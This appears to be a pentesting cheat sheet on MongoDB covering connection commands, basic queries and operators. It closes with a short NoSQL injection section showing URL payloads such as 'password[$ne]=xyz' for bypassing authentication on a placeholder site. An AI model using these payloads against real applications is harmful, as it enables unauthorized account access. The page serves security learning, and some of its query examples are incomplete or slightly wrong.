 ```yaml
---
title: MongoDB
desc: A source-available cross-platform document-oriented database program.
tags: [Database, Linux, Web]
alts: []
website:
render_with_liquid: false
---
```


## Connect (local)

```sh
# Basic (default port: 27017)
mongo

# Specify port
mongo --port 27117
```

<br />

## Connect (remote)

```sh
mongo --host 10.0.0.1 --port 27017 -u username -p password
mongo "mongodb://10.0.0.1:27017"
mongo "mongodb://username:password@10.0.0.1:27017/?authSource=admin"
```

<br />

## Basic Commands

```sh
# All databases
> show dbs
# Current database
> db
# Switch database if it exists, or create new if not exist
> use db_name
# Collections
> show collections
# Run javascript file
> load("example.js")

# List users in the current database
> show users
> db.admin.find()

# Create new collection in current database
> db.createCollection("users")

# Create
> db.<collection_name>.insert({id: "1", username: "admin"})
# Read
> db.<collection_name>.find()
> db.<collection_name>.findOne({"username":"michael"})
# Update
> db.<collection_name>.update({id: "1"}, {$set: {username: "king"}})
# Delete
> db.<collection_name>.remove({"name": "Micael"})
# Delete all documents
> db.<collection_name>.remove({})
```

<br />

## Operators

```sh
# $eq: equal
# ex. username is "admin"
db.<collection_name>.findOne({username: {"$eq": "admin"}})

# $ne: not equal
# ex. password is not "xyz"
db.<collection_name>.findOne({id: "1"}, {password: {"$ne": "xyz"}})

# $gt: greater than
# ex. id is greater than 2
db.<collection_name>.findOne({id: {"$gt": "2"}})

# $where:

# $exists:

# $regex: 
```

<br />

## NoSQL Injection

If the web application uses MongDB, you might be able to fetch desired user information. It allows you to bypass authentication.

```sh
https://vulnerable.com/search?username=admin&password[$ne]=xyz
https://vulnerable.com/search?username[$ne]=admin&role=guest
https://vulnerable.com/search?id[$gt]=1&username=mike
```